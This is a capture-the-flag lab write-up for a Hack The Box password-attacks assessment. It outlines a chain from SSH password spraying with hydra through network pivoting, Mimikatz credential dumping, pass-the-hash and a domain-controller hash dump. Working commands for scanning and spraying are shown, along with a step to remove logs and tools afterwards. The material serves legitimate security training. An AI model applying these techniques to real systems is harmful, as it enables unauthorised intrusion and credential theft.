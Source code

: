# DMZ Foothold → Pivot → Credential Chain → DC Compromise
**Scenario:** HTB Password Attacks Final Assessment (Nexura LLC)  
**Goal:** Start from a single credential clue, gain a foothold on `DMZ01`, pivot to the internal subnet, escalate via credential discovery/reuse, and dump `Administrator`’s hash from `DC01`.

---

## TL;DR Flow
1) **Username generation** → **Password spray (SSH)** → **Foothold on DMZ01**  \
2) **Drop ligolo-ng** → **Pivot 172.16.119.0/24**  \
3) **Spray RDP/WinRM/SMB** with discovered creds → **RDP to JUMP01**  \
4) **Hunt shares with Snaffler** → **Pull `.psafe3`** → **Crack with hashcat**  \
5) **New creds** → **Admin RDP on JUMP01** → **Mimikatz LSASS** → **Get user NTLM**  \
6) **Pass-the-Hash to DC01** → **`--ntds` dump** → **Administrator hash**  \
7) **Housekeeping** (remove tools, logs, tunnels)

References: username-anarchy, hydra, ligolo-ng, netexec (nxc), xfreerdp, Snaffler, smbclient, hashcat, mimikatz.

---

## Environment & OPSEC
- **Attack host:** `10.10.15.81` (Kali/Parrot).  
- **Targets:**  
  - External: `DMZ01` – `10.129.234.116` (also `172.16.119.13`)  
  - Internal: `JUMP01` – `172.16.119.7`, `FILE01` – `172.16.119.10`, `DC01` – `172.16.119.11`  
- Work from a **staging dir** (easy clean-up). Keep a **loot/** folder for creds, tickets, and dumps.  fileciteturn0file0

---

## Recon and Foothold (SSH)
### Port scan (external)
```bash
nmap -sC -sV -oN nmap/DMZ01 10.129.234.116
# Expect SSH/22 on Ubuntu/OpenSSH
```
Result establishes SSH as the entry point.

### Username generation + Spray
```bash
# Username candidates
git clone https://github.com/urbanadventurer/username-anarchy.git
cd username-anarchy
./username-anarchy "Betty Jayde" > user.list

# Single-password spray
hydra -L user.list -p 'Texas123!@#' ssh://10.129.234.116
```
Look for a valid pair like `jbetty:Texas123!@#`. Then:
```bash
ssh jbetty@10.129.234.116
```
Tip: throttle if needed (`-t 4`). fileciteturn0file0
